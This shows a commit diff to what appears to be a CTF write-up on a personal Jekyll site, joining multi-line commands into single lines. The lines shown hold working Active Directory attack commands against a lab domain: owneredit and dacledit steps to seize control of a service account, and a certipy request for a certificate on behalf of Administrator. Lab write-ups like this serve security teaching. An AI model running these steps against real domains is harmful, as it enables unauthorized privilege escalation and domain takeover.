

Before and after one commit to p3ta00/p3ta00.github.io, a Jekyll site: the page built from _ctf/hacksmarter-shadowgate2.md, in a window 1280 px wide and 900 px high, scrolled down 24403 px. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
Collapse multi-line backslash-continued commands into single lines

````diff
--- a/_ctf/hacksmarter-shadowgate2.md
+++ b/_ctf/hacksmarter-shadowgate2.md
@@ -358,8 +358,7 @@
 `milo.w` doesn't own `svc_mssql` by default, so ownership has to be seized before a DACL can be written. First, take ownership using the `WriteOwner` edge:
 
 ```bash
-Exegol ➜ /workspace 𝘹 owneredit.py -action write -new-owner 'milo.w' -target 'svc_mssql' \
-    'shadowgate.local/milo.w:[REDACTED]' -dc-ip 10.1.104.4
+Exegol ➜ /workspace 𝘹 owneredit.py -action write -new-owner 'milo.w' -target 'svc_mssql' 'shadowgate.local/milo.w:[REDACTED]' -dc-ip 10.1.104.4
 [*] Current owner information below
 [*] - SID: S-1-5-21-2396436576-3267128377-3646372360-512
 [*] - sAMAccountName: Domain Admins
@@ -369,8 +368,7 @@
 Then grant `milo.w` full control via a DACL write:
 
 ```bash
-Exegol ➜ /workspace 𝘹 dacledit.py -action write -rights FullControl -principal 'milo.w' -target 'svc_mssql' \
-    'shadowgate.local/milo.w:[REDACTED]' -dc-ip 10.1.104.4
+Exegol ➜ /workspace 𝘹 dacledit.py -action write -rights FullControl -principal 'milo.w' -target 'svc_mssql' 'shadowgate.local/milo.w:[REDACTED]' -dc-ip 10.1.104.4
 [*] DACL backed up to dacledit-[timestamp].bak
 [*] DACL modified successfully!
 ```
@@ -732,12 +730,7 @@
 With a valid Enrollment Agent certificate, request a certificate **on behalf of** Administrator against the `User` template:
 
 ```bash
-Exegol ➜ /workspace 𝘹 certipy req -u 'sam.h@shadowgate.local' -p '[REDACTED]' -dc-ip 10.1.104.4 -ldap-scheme ldap \
-  -ca 'Shadowgate-CA' -target SG-DC01.shadowgate.local \
-  -template User \
-  -on-behalf-of 'shadowgate\administrator' \
-  -pfx sam.h.pfx \
-  -dynamic-endpoint
+Exegol ➜ /workspace 𝘹 certipy req -u 'sam.h@shadowgate.local' -p '[REDACTED]' -dc-ip 10.1.104.4 -ldap-scheme ldap -ca 'Shadowgate-CA' -target SG-DC01.shadowgate.local -template User -on-behalf-of 'shadowgate\administrator' -pfx sam.h.pfx -dynamic-endpoint
 Certipy v5.1.0 - by Oliver Lyak (ly4k)
 
 [*] Requesting certificate via RPC
````
